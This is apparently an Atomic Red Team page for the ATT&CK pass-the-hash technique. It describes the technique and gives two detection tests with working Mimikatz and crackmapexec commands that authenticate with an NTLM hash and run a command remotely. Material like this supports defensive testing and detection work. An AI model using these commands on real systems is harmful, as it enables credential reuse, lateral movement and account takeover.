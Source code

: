 # T1075 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|


#### Attack Commands: Run with `command_prompt`! 
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```






<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| command | command to execute | string | whoami|
| crackmapexec_exe | crackmapexec windows executable | Path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|


#### Attack Commands: Run with `command_prompt`! 
```
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```



#### Dependencies:  Run with `powershell`!
##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```
if(Test-Path #{crackmapexec_exe}) { 0 } else { -1 } 
```
##### Get Prereq Commands:
```
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>
